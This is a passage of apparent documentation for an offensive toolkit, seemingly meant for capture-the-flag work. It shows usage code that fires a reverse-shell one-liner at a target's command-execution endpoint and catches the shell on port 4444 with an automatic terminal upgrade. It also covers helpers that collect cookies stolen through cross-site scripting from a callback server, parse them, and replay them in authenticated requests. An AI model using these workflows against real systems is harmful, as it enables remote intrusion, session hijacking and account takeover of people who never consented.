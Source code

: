 ```python
# Method 3: With trigger function
def trigger():
    requests.get(f"http://target/rce?cmd={python_oneliner(lhost, 4444)}")

quick_catch(4444, trigger_func=trigger)   # Does everything automatically
```

**Features:**
- Automatic PTY upgrade with Python/script
- Terminal size detection and setting
- Command history with arrow keys
- Tab completion (after stabilization)
- Raw TTY mode for full interactivity

## Cookie Handling (`utils/cookie.py`)

Parse stolen cookies for reuse:

```python
from utils.cookie import parse_cookie_string
from utils.server_hooks import get_cookie

# Wait for XSS to steal cookie
cookie_str = get_cookie(timeout=30)
# Returns: "session=abc123; token=xyz789"

# Parse for requests
cookies = parse_cookie_string(cookie_str)
# Returns: {'session': 'abc123', 'token': 'xyz789'}

# Use in requests
response = requests.get(target_url, cookies=cookies)
```

## Server Hooks (`utils/server_hooks.py`)

Get data from your callback server's queue:

```python
from utils.server_hooks import get_cookie, wait_for_callback, get_event

# Wait for cookie from XSS
cookie = get_cookie(server='http://localhost:8000', timeout=30)

# Wait for any callback type
data = wait_for_callback(timeout=30, param='cookie')

# Get raw events
event = get_event()  # {'type': 'cookie', 'data': '...', 'timestamp': '...'}

# Clear queue before new attempt
drain_queue()
```
